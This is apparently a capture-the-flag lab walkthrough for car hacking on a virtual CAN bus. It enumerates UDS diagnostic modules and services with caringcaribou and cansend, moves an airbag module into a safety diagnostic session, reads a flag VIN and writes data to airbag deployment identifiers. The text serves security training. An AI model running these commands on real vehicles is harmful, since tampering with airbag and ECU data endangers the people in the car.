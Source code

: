 Perform an initial discovery with caring caribou $python3 cc.py uds discovery

Discovery give us the following identified diagnostics:

+------------+------------+ | CLIENT ID | SERVER ID | +------------+------------+ | 0x00000620 | 0x00000520 | | 0x00000622 | 0x00000522 | | 0x0000062c | 0x0000052c | | 0x000007e0 | 0x000007e8 | | 0x000007e2 | 0x000007ea | | 0x000007f1 | 0x000007f9 | +------------+------------+

Next we can look up available services for each of the available modules shown in the list above

As an example for this recon walkthrough we will follow up only on the last module from the list 0x7f1 and we perform a discovery of services

$python3 cc.py uds services 0x7f1 0x7f9

Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL Supported service 0x11: ECU_RESET Supported service 0x22: READ_DATA_BY_IDENTIFIER Supported service 0x27: SECURITY_ACCESS Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER Supported service 0x3e: TESTER_PRESENT

Next we can perform a discovery of subfunctions on 0x22 READ_DATA and also on 0x2e WRITE_DATA, the rest of the services are standard and respond as defined for UDS

$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x22 2 3 Sub-function 11 11 Sub-function f1 90 Sub-function fa 00 Sub-function fa 01 Sub-function fa 02 Sub-function fa 06

From the list above we can see the subfunctions FA 00 to FA 06 which are subfunctions reserved for Airbag Deployment Data (see reference below) https://piembsystech.com/data-identifiers-did-of-uds-protocol-iso-14229/

Once we have a list of subfunctions we could read the data out and also we could write data in

Keeping in mind that this is an airbag module before reading or writing is permitted the diagnostic session should be raise from default session 0x01 to Safety system Diagnostic system session 0x04 $cansend vcan0 7f1#021004 50 04 00 FF 00 FF

We get a positive response of the session changed and we can now execute a subfunction discovery on 0x2e WRITE_DATA service $python3 cc.py dcm subfunc 0x7f1 0x7f9 0x2e 2 3 Sub-function 11 11 Sub-function f1 90 Sub-function fa 00 Sub-function fa 01 Sub-function fa 02 Sub-function fa 06

now let's read the VIN number as we already know the subfunction F1 90 has been identified as available as part of 0x22 service in a seperate terminal run the isotprecv command $isotprecv vcan0 -s 7f1 -d 7f9

$cansend vcan0 7f1#0322f190 response: 62 F1 90 01 31 46 4C 41 47 56 49 4E 53 52 53 34 32 30 36 39 30

we convert the hex to ascii $echo "31464c414756494e535253343230363930" | xxd -r -p 1FLAGVINSRS420690

we should be able to read and write as well, let's try it with subfunction FA 06 we read it first $cansend vcan0 7f1#0322fa06 62 FA 06 01 01 01

Let's now try to write data $cansend vcan0 7f1#062efa06000000 6E FA 06

and read it again to verify $cansend vcan0 7f1#0322fa06 62 FA 06 00 00 00

Success

![image](https://github.com/IvanGranero/car-hacking/assets/47937620/015899a5-38f1-46a2-bdb7-428555ff6f9f)

This walkthrough only traverses one of the many possible paths to do recon on the different modules and services available for a complete recon all the remaining modules and services within the modules plus subfuntions would have to be discovered and played with.

Just to give another quick example if we do a service discovery on module 7e0: Supported service 0x01: Unknown service Supported service 0x04: Unknown service Supported service 0x09: Unknown service Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL Supported service 0x11: ECU_RESET Supported service 0x22: READ_DATA_BY_IDENTIFIER Supported service 0x23: READ_MEMORY_BY_ADDRESS Supported service 0x27: SECURITY_ACCESS Supported service 0x28: COMMUNICATION_CONTROL Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER Supported service 0x2f: INPUT_OUTPUT_CONTROL_BY_IDENTIFIER Supported service 0x3e: TESTER_PRESENT Supported service 0xba: Unknown service

with the above information we can either do a dump_dids o subfunction search, the 0x2f would be a very interesting service to play with. as a hint this module also contains a flag by reading the VIN. Have fun!
